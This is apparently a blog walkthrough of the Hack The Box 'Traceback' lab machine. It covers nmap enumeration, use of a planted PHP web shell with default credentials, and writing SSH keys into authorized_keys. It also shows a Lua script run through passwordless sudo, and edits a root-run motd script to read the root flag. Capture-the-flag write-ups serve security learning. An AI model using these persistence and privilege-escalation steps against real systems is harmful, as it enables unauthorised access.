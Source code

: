 ```yaml
---
layout: post
title:  "HTB Traceback Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Traceback, Retired Linux Easy Box
tags: HTB_Walkthrough SSH pspy
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
# Nmap 7.80 scan initiated Sat Mar 14 16:47:34 2020 as: nmap -sV -sC -Pn -p- -oA traceback.htb.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.041s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 14 16:48:11 2020 -- 1 IP address (1 host up) scanned in 37.02 seconds
{% endhighlight %}

Once I found what was open, I began performing banner grabbing. I found that `XH4H` was listed all over the page:

{% highlight bash linenos %}
ssh xh4h@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
{% endhighlight %}

This led to nothing. So, checking out http, there was a note in the soure code:

{% highlight bash linenos %}
<!--Some of the best web shells that you might need ;)-->
{% endhighlight %}

Performing some OSINT, XH4H has a GitHub and forked a project over with the best php web shells:

<a href="https://github.com/Xh4H/Web-Shells" target="_blank">https://github.com/Xh4H/Web-Shells</a>

Once I had that, I check to see if any were on the website. One was! http://traceback.htb/smevk.php. Once I logged in to the webshell with the default `admin:admin` credentials, I then found that user webadmin had ssh, and an `authorized_keys` file I could write to. I wrote my `id_rsa.pub` to the authorized keys, and logged in with ssh.

Once logged in, I found with `sudo -l`, I can run `/home/sysadmin/luvit` as sysadmin with no password. Doing some googling, luvit is a lua driven tool to learn Lua. Luvit can also run .lua files. So, I created a Lua file, to again write my id_rsa.pub to the `authorized_keys` file:

{% highlight bash linenos %}
local test = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
test:write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDORSNFXHRLa8rC5DieG5EFcwzHa4daADnRHCN3mHIrqujoJSOeb7lNkSg0zPRd2oAJHbZx+t4YsG1fssh1bAl/FUE62D+r+0ZpD8137GipGEflnUobWhgtpez8bf8CWrvFqnVSg4KhQ5qgVLckzJRWxHbCME49BKUi8EEtZv3yEviNuKkOSQsn6IWfoPlW0bNG0gZutltE1cTGLCEsHSYKIEjyZRpSfGAywbwWagpAlJrMscOzCet19Zswc33yNZtLtUPqxfqmmVG08PV8W7jqOQeVKak= root@beast\n")
test:close()
{% endhighlight %}

And then ran that file:

{% highlight bash linenos %}
sudo -u sysadmin /home/sysadmin/luvit blah.lua
{% endhighlight %}

Once I ran that, I then logged in as sysadmin over SSH and owned user:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ ls
luvit  user.txt
$ cat user.txt
xxxxxxxxxxxxxxxxxxxx33ffbf0cceb2c46020
{% endhighlight %}

While enumerating, looking at pspy, I found that there is a running process every 30 seconds:

{% highlight bash linenos %}
/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

{% endhighlight %}
Looking in `/etc/update-motd.d/` I see I have write access to `00-header`, which displays the welcome message! Towards the bottom, I added the following to `/etc/update-motd.d/00-header`:

{% highlight bash linenos %}
[ -r /etc/lsb-release ] && . /etc/lsb-release

cat /root/root.txt
echo "\nWelcome to Xh4H land \n"
{% endhighlight %}

I then quickly logged in, and got the root flag:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
xxxxxxxxxxxxxxxx4f6f56d822a357585d6
{% endhighlight %}
